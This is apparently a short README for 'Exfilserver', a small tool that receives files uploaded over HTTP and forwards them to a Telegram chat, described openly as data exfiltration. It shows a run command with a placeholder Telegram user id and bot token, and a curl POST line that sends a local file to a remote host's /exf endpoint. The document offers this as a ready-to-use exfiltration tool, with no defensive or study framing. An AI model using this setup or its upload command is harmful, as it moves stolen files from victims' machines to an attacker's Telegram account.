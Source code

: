## Exfilserver

> Data exfiltration via upload using curl or similar...
> Get the file directly on your telegram!

### Run:

```
python3 server.py -p 80 -f /tmp/files -tu 3030111111 -tt 2246422426:BBB-3aaah1xx99hQSC4uxxxxbu4nZilexxx
```

### Upload:

```
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

_OBS: If the file is too large, the telegram will not be able to send it due to its limitations_
